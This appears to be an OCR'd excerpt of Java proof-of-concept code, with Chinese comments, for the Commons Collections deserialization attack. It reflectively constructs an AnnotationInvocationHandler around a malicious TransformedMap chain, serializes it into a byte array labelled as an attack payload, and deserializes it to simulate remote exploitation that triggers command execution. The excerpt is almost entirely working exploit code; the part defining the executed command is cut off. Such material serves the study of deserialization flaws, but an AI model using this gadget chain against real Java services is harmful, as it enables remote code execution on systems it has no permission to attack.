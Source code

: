 ```java

//		// 遍历Map元素，并调用setValue方法
//		for (Object obj : transformedMap.entrySet()) {
//			Map.Entry entry = (Map.Entry) obj;
//
//			// setValue最终调用到InvokerTransformer的transform方法,从而触发Runtime命令执行调用链
//			entry.setValue("test");
//		}
//
////		transformedMap.put("v1", "v2");// 执行put也会触发transform

		try {
			// 获取AnnotationInvocationHandler类对象
			Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");

			// 获取AnnotationInvocationHandler类的构造方法
			Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);

			// 设置构造方法的访问权限
			constructor.setAccessible(true);

			// 创建含有恶意攻击链(transformedMap)的AnnotationInvocationHandler类实例，等价于：
			// Object instance = new AnnotationInvocationHandler(Target.class, transformedMap);
			Object instance = constructor.newInstance(Target.class, transformedMap);

			// 创建用于存储payload的二进制输出流对象
			ByteArrayOutputStream baos = new ByteArrayOutputStream();

			// 创建Java对象序列化输出流对象
			ObjectOutputStream out = new ObjectOutputStream(baos);

			// 序列化AnnotationInvocationHandler类
			out.writeObject(instance);
			out.flush();
			out.close();

			// 获取序列化的二进制数组
			byte[] bytes = baos.toByteArray();

			// 输出序列化的二进制数组
			System.out.println("Payload攻击字节数组：" + Arrays.toString(bytes));

			// 利用AnnotationInvocationHandler类生成的二进制数组创建二进制输入流对象用于反序列化操作
			ByteArrayInputStream bais = new ByteArrayInputStream(bytes);

			// 通过反序列化输入流(bais),创建Java对象输入流(ObjectInputStream)对象
			ObjectInputStream in = new ObjectInputStream(bais);

			// 模拟远程的反序列化过程
			in.readObject();

			// 关闭ObjectInputStream输入流
			in.close();
		} catch (Exception e) {
			e.printStackTrace();
		}
	}

}
```
